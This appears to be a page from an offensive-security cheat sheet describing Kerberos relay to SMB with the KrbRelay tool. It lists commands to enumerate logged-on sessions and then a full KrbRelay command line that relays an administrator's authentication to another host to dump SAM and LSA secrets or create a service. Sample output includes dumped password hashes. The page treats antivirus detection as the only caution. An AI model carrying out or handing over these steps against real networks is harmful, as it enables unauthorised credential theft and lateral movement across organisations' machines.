

**Kerberos relay to SMB (KrbRelay)** — from a local access on a domain-joined machine with multiple user sessions, coerce a logged-on user to authenticate to a local attacker server and relay the Kerberos authentication to another machine's SMB service (when signing is not required). This lets you dump secrets or run commands on that second machine.



## Discovery

1. List user sessions with `query`:

```console

C:\Windows\System32>query user
 USERNAME              SESSIONNAME        ID  STATE   IDLE TIME  LOGON TIME
>dummy                 console             2  Active          1  1/10/2023 2:39 PM
 administrator                             3  Disc            1  2/20/2023 11:32 AM

```

Or with `PrivescCheck`:

```console

PS C:\> Invoke-UserSessionListCheck

SessionName UserName              Id        State
----------- --------              --        -----
Services                           0 Disconnected
Console     SRV01\Administrator    1       Active
RDP-Tcp#3   DOMAIN\Administrator   3       Active

```

**Note:** The session state (Active or Disconnected) does not matter.

2. Find a session for a user with admin privileges on another machine (does not have to be a Domain Admin).

## Exploitation

Capture and relay the target user's authentication to another machine where SMB signing is not required.

```batch

.\KrbRelay.exe -spn cifs/TARGET_FQDN -session SESSION_ID -clsid f8842f8e-dafe-4b37-9d38-4e0714a61149 -secrets

```

- `TARGET_FQDN` - another machine with SMB signing not required.
- `SESSION_ID` - the session ID of the locally connected user to target.
- `-clsid` - the COM object to use; if this one fails, try other CLSIDs from the tool's README.
- `-secrets` - retrieve the SAM and LSA secrets of the target machine. Instead, `-service-add <NAME> <COMMAND>` creates a service.

```console

C:\Users\dummy\Desktop>.\KrbRelay.exe -spn cifs/srv02.domain.local -session 3 -clsid f8842f8e-dafe-4b37-9d38-4e0714a61149 -secrets
[*] Relaying context: DOMAIN\Administrator
[*] Forcing cross-session authentication
[*] Spawning in session 3
[+] SMB session established
[+] Dump successful
[*] SAM hashes
Administrator:500:aad3b435b51404eeaad3b435b51404ee:***
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0

```

## Caution

Nothing special, except that the tool is detected by AV/EDR.

## References

- KrbRelay - https://github.com/cube0x0/KrbRelay
